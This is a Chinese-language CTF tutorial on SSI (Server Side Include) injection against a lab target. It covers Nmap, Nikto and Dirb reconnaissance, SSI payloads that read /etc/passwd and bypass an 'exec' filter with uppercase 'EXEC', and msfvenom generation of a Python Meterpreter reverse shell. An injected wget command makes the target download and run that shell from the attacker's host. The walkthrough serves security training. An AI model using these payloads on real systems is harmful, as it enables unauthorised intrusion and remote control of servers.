# CTF网络安全教程：P13：CTF夺旗-SSI注入

## 概述
在本节课中，我们将学习一种名为SSI注入的攻击技术。通过利用这种注入漏洞，攻击者可以从外部进入目标主机并获得相应权限。我们将从SSI的基本概念讲起，逐步演示如何在一个模拟的靶场环境中发现并利用SSI注入漏洞，最终获取系统权限。

## SSI注入简介
上一节我们概述了本节课的目标，本节中我们来详细了解一下SSI注入。



SSI代表Server Side Include，即服务端包含。SSI技术的出现是为了赋予HTML这类静态页面动态效果。在动态网页技术（如PHP、ASP）普及之前，SSI和CGI被广泛应用于HTML静态页面，通过执行系统命令并将结果返回给页面，实现交互效果，从而模拟出动态页面的功能。



如果在网站目录中发现`.shtm`、`.stm`或`.shtml`后缀的文件，通常表示该网站使用了SSI技术。如果网站对SSI的输入没有进行严格或充分的过滤，就会导致SSI注入漏洞，使得用户输入的指令被系统执行并返回结果。

## 实验环境搭建
了解了SSI的基本概念后，我们需要搭建实验环境来实践攻击过程。

*   **攻击机**：Kali Linux， IP地址：`192.168.1.103`
*   **靶机**：一台Linux服务器， IP地址：`192.168.1.106`

我们的最终目标是获取靶机上的flag值。为此，首先需要获得对靶机的访问权限。

## 信息收集
在发起攻击前，必须对目标进行充分的信息收集。这是渗透测试的第一步。

### 服务与版本扫描
我们使用Nmap工具来探测靶机开放的服务及其版本信息。

以下是扫描命令：
```bash
nmap -sV 192.168.1.106
```
该命令会向靶机发送探测数据包，并根据返回的信息分析并输出开放的服务和版本。



为了获取更全面的信息（包括操作系统），我们可以使用Nmap的“全面扫描”模式。
```bash
nmap -A -T4 -v 192.168.1.106
```
参数说明：
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-T4`：指定扫描速度，T4为较快速度。
*   `-v`：显示详细输出。





扫描结果显示，靶机仅开放了80端口，运行着Apache HTTP服务。

### Web服务深度探测
确认开放HTTP服务后，我们需要对其进行深度探测，以发现潜在的漏洞入口。

首先，使用`nikto`工具进行Web漏洞扫描。
```bash
nikto -h http://192.168.1.106
```
`nikto`会检查许多已知的Web安全问题，如危险文件、过时版本等。



接着，使用`dirb`工具进行目录爆破，寻找隐藏的目录和文件。
```bash
dirb http://192.168.1.106
```
`dirb`会尝试通过字典猜测靶站上存在的目录和文件路径。



## 漏洞分析与发现
收集到足够信息后，下一步是分析这些信息，寻找可利用的漏洞点。

分析`nikto`和`dirb`的扫描结果，我们发现了几个关键点：
1.  服务器运行Ubuntu系统，使用Apache 2.4.18。
2.  发现了一个名为`/ssi/`的目录。
3.  发现了`index.shtml`文件，这强烈暗示网站使用了SSI技术。
4.  在`/ssi/`目录的页面中，返回了类似系统命令`ls -la`执行后的结果，显示了文件列表和我们的IP地址。



这些迹象表明，该站点很可能存在命令注入漏洞，并且与SSI相关。在CTF比赛中，这通常意味着我们需要通过SSI注入来执行系统命令。

## 利用SSI注入
找到了疑似漏洞点，本节我们尝试构造并利用SSI注入攻击。



### 寻找注入点
访问`/ssi/`目录下的页面，我们发现了一个表单输入框。这很可能就是用户输入被传递给SSI解析器的地方。



### 注入测试与绕过
我们尝试注入经典的SSI命令格式。例如，查看系统密码文件的命令如下：
```
<!--#exec cmd="cat /etc/passwd"-->
```
将其输入表单并提交，发现命令没有执行。查看页面源代码，发现关键词`exec`被过滤掉了。

常见的绕过技巧是使用大小写混淆。我们将`exec`改为大写的`EXEC`再次尝试：
```
<!--#EXEC cmd="cat /etc/passwd"-->
```
提交后，成功在页面上看到了`/etc/passwd`文件的内容，这证实了SSI注入漏洞的存在，并且我们成功绕过了过滤。

## 获取反向Shell
成功执行命令后，我们的目标升级为获取一个反向Shell，以便在攻击机上获得一个交互式的命令行会话。



### 生成Shell载荷
我们使用`msfvenom`生成一个Python语言的反向Shell载荷。
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.103 LPORT=4444 -f raw > /root/Desktop/shell.py
```
参数说明：
*   `-p python/meterpreter/reverse_tcp`：指定生成Python的Meterpreter反向TCP载荷。
*   `LHOST=192.168.1.103`：指定监听主机的IP（攻击机Kali）。
*   `LPORT=4444`：指定监听端口。
*   `-f raw`：指定输出格式为原始代码。
*   `> /root/Desktop/shell.py`：将生成的代码保存到桌面文件`shell.py`。

### 启动监听器
在攻击机上，我们需要启动Metasploit框架来监听靶机返回的连接。
1.  启动Metasploit控制台：`msfconsole`
2.  使用 exploit 模块：`use exploit/multi/handler`
3.  设置 payload：`set payload python/meterpreter/reverse_tcp`
4.  设置监听参数：
    ```bash
    set LHOST 192.168.1.103
    set LPORT 4444
    ```
5.  开始监听：`run`

### 通过SSI注入下载并执行Shell
现在，我们需要让靶机从我们的攻击机下载这个`shell.py`文件并执行它。



首先，将生成的`shell.py`文件移动到Kali的Web服务器根目录（`/var/www/html/`），并启动Apache服务。
```bash
cp /root/Desktop/shell.py /var/www/html/
systemctl start apache2
```



然后，在靶站的SSI注入点，输入以下命令：
```
<!--#EXEC cmd="wget http://192.168.1.103/shell.py -O /tmp/shell.py"-->
```
提交后，靶机会从我们的Kali服务器下载`shell.py`文件到其`/tmp/`目录。



接着，赋予该文件执行权限并运行它：
```
<!--#EXEC cmd="chmod +x /tmp/shell.py"-->
<!--#EXEC cmd="python /tmp/shell.py"-->
```
执行最后一条命令后，观察Metasploit监听窗口，应该会看到成功建立了 Meterpreter 会话。

## 权限提升与Flag获取
成功获取反向Shell后，我们通常在一个功能受限的Meterpreter会话中。本节我们进行会话升级并寻找flag。

### 升级Shell交互体验
在Meterpreter会话中，输入`shell`命令可以进入一个简单的系统Shell，但交互性较差。我们可以使用Python来生成一个更友好的TTY Shell。
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
执行后，我们会获得一个功能更完整的Bash Shell，支持命令历史、Tab补全等。

### 寻找Flag
在CTF比赛中，flag通常存放在根目录、当前用户目录或特定题目目录下。使用以下命令进行查找：
```bash
find / -name "*flag*" 2>/dev/null
cat /flag.txt
# 或
cat /root/flag.txt
```
在本实验环境中，靶机可能未预设flag文件，但在真实CTF比赛中，此步骤即可获取最终的目标字符串。

## 总结与技巧
本节课中，我们一起学习了SSI注入攻击的完整流程。

我们首先介绍了SSI技术的基本原理及其可能引发的注入漏洞。随后，通过一个模拟环境，实践了从信息收集、漏洞发现、注入利用到最终获取系统权限的全过程。关键步骤包括：
1.  **信息探测**：使用Nmap、Nikto、Dirb等工具。
2.  **漏洞识别**：通过`.shtml`文件等线索判断SSI的使用。
3.  **注入利用**：构造SSI命令进行注入，并运用**大小写绕过**等技巧应对过滤。
4.  **权限获取**：生成反向Shell载荷，通过漏洞让靶机下载执行，从而建立反向连接。
5.  **后期操作**：升级Shell体验，在文件系统中寻找并读取flag。



在实际CTF比赛或安全评估中，遇到的过滤机制可能更为复杂，需要灵活运用编码、拼接、使用替代命令等多种绕过技术。掌握SSI注入的原理和基本利用方法，是Web安全学习中的重要一环。